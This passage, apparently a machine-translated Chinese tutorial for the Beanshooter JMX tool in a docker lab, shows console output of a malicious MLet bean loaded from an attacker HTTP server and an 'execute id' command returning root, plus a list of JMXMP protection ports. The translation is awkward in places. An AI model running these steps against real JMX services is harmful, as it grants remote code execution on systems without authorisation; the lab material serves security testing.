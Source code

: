[+]启动 HTTP 服务器…完成！
[+]
[+]收到/mlet
[+]发送恶意 mlet 的请求:
[+]
[+]Class:de . qtc . TonkaBean . TonkaBean
[+]Archive:tonka-bean . jar
[+]Object:mlettokabean:name = TonkaBean，id = 1
[+]code base:http://172 . 17 . 0 . 1:8088
[+]
[+]恶意 Bean 注册成功
[qtc @ kali ~]$ Bean shooter–jmxmp 172 . 17 . 0 . 2 5555 execute id
[+]连接 JMX 服务器…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送命令' id '到服务器…
[+] Servers 答案是:uid = 0(root)GID = 0(root)groups = 0(root)**

除了端口**`5555`**上的普通 *JMXMP* 监听器外，其他 *JMXMP* 监听器实现不同种类的保护:

*   端口**`5556`**–*SSL*受保护 *JMXMP*
*   港口`**5557**`–*TLS SASL/平原*受保护 *JMXMP*
*   端口`**5558**`–*TLS SASL/CRAM-MD5*受保护 *JMXMP*
*   端口`**5559**`–*TLS SASL/DIGEST-MD5*受保护 *JMXMP*
*   端口`**5560**`–*TLS SASL/NTLM*受保护 *JMXMP*

*Beanshooter* 支持所有这些类型的保护，相应的示例可以在 docker-container 的`**README.md**`中找到。

有用的提示:也可以使用 *jconsole* 通过 *JMXMP* 连接到一个正在运行的 *JMX* 代理。不是简单地指定连接的主机和端口号，而是必须使用 *JMXMP* 服务 URI `**service:jmx:jmxmp://<JMXMPHOST>:<JMXMPPORT>**`，并且必须确保 *jmxremote_optional.jar* 在您的类路径中。

**反序列化支持**

![](img/94d1ab0b54f394f9484417bf9244bed6.png)
